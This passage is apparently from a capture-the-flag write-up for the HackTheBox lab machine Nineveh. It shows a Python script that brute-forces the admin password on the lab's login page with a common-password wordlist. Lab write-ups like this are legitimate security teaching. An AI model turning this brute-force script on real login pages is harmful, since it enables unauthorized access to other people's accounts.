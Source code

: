 ![](/assets/images/ninevehv03/screenshot-2.png)

Exploring the source code I saw a possible username.

![](/assets/images/ninevehv03/screenshot-3.png)

I developed a python script to brute force the login page.

```python
#!/usr/bin/env python3

import requests

url = "http://nineveh.htb"

def loginbf(pwd):
    data = {
            'username':'admin',
            'password':pwd
        }

    r = requests.post(f"{url}/department/login.php", data=data)
    return r.text

wordlist = open("/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt").read().split("\n")

for wd in wordlist:
    if "Invalid" in loginbf(wd):
        print(f"[-] Password => {wd}")
    else:
        print(f"[+] Password => {wd} found")
        break
```
